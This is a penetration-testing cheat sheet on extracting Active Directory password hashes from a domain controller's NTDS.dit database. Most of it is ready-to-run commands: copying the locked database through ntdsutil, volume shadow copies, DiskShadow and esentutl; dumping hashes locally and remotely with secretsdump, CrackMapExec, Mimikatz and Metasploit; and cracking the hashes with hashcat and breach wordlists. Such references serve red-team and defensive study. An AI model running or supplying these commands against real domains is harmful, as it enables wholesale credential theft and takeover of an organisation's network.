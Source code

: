 # NTDS.dit & vshadow

The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine (ESE) and is "officially" composed by 3 tables:

```
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory (you can find the lastet accessed data probably because of the performance impruve by using a cache).

## Decrypting the hashes inside NTDS.dit

You will need the following files to extract the ntds :

* NTDS.dit file
* SYSTEM hive (C:\Windows\System32\SYSTEM)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller (is different between domain controllers). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM (C:\Windows\System32\config\SYSTEM).

### Copying NTDS.dit using Ntdsutil

Available since Windows Server 2008.

```
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

&#x20;or run ntdsutil interactivly:

```
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

## Vshadow

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that you will also need a copy of the SYSTEM file (again, dump it from the registry or use the volume shadow copy trick).

```
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### **Using vssadmin**

```
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### **Using DiskShadow (a Windows signed binary)**

```
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### **Using esentutl.exe**

**​​**Copy/extract a locked file such as the AD Database

```
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

****

## Extracting hashes from NTDS.dit

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### remote NTDS.dit Dump

You can also extract them automatically using a valid domain admin user:

```
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### Metasploit & Mimikatz Modules

Finally, you can also use the metasploit module:

```
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject

```

### PowerSploit module

```
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### CrackMapExec module

```
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```

### Mimikatz

{% hint style="info" %}
Dumps credential data in an Active Directory domain when run on a Domain Controller.![warning](https://github.githubassets.com/images/icons/emoji/unicode/26a0.png) Requires administrator access with debug or Local SYSTEM rights
{% endhint %}

```
sekurlsa::krbtgt
lsadump::lsa /inject /name:krbtgt
```

## **Crack NTLM hashes with hashcat**

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

Have I Been Powned ([https://hashes.org/download.php?hashlistId=7290\&type=hfound](https://hashes.org/download.php?hashlistId=7290\&type=hfound))

Collection #1 (passwords from Data Breaches, might be illegal to possess)

```
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r ./rules/best64.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

* [hashes.org](https://hashes.org/check.php)
* [hashes.com](https://hashes.com/en/decrypt/hash)
